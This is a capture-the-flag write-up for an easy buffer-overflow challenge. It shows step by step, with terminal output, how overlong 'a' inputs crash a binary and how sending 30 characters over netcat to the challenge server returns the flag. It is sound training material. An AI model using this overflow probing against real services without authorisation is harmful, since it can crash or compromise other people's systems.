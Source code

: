 # Step 1 

```
Download the attachment aaa and make it executable (chmod +x aaa)
```
# Step 2

```
Run the elf exectuable , it prompts for username and password.
```
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ ./aaa
Enter username and password, separated by spaces:
```
Enter larger values and see if it overflows.
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ ./aaa
Enter username and password, separated by spaces:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
cat: flag.txt: No such file or directory
zsh: segmentation fault  ./aaa
```
Segmentation flault points to buffer overflow.
It's a easy chall that means not much technical, let's try to find the number of 'a' when it does or doesn't overflow.

# Step 3
To generate the countable number of a's use python one liner.
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ python -c "print 'a'*50"                                                                                                                           139 ⨯
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Copy and paste the a'a and see it overflows.
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ python -c "print 'a'*10"
aaaaaaaaaa
                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ ./aaa
Enter username and password, separated by spaces:
aaaaaaaaaa
```
No overflow, repeat the steps and narrow down the gap.
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ python -c "print 'a'*30"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ ./aaa
Enter username and password, separated by spaces:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
cat: flag.txt: No such file or directory
```
Reading flag.txt and no overflow, let's try 30 a's connecting via netcat to oroginal given connection.
```bash
┌──(kali㉿kali)-[~/ctf/imaginary]
└─$ nc oreos.ctfchallenge.ga 7331
Enter username and password, separated by spaces:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
ictf{buff3r_0verfl0w_1s_d4ng3r0us}
```
# Step 3
Submit the flag.